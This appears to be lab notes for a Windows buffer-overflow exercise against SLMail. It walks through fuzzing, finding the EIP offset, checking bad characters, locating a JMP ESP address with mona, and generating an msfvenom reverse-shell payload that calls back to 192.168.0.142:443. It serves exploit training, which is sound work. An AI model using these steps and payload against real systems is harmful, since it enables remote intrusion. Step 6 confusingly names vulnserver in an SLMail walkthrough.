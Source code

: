 1. Use fuzz.py to know how many A will get overflow.

    2600: will trigger the overflow, but it is not within the A range

    ![hashdump](../../images/slmail_fuzz.png)

    2700: will trigger the overflow, and EIP fill with A.

2. Use pattern to locate where EIP is

    ```
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438
    [*] Exact match at offset 2606
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    ![hashdump](../../images/slmail_bbbb.png)

4. Expand the payload from 2700 to 3500 by increase the length of CCCC section, Run again and confirm that this works.

    ![hashdump](../../images/slmail_fuzz2700.png)

5. Bad characters checker, badchars is \x00\0xa\0xd only, see code at bad_chars.py


6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.

    Openc32.dll
    SLMail.exe
    SLMFC.dll

    ![hashdump](../../images/slmail_mona.png)
    
7. Inspect the memory map on `Memory map` windows


8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

```
root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
jmp esp 
nasm > jmp esp
00000000  FFE4              jmp esp
```


9. use mona to find address => 0x625011af

    `!mona find -s "\xff\xe4" -m slmfc.dll`

    ![hashdump](../../images/slmail_ffe4.png)

10. update the script to replace B with address  \xaf\x11\x50\x62, set breakpoint at 0x625011af



11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC


12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

    ![hashdump](../../images/slmail_shell.png) 
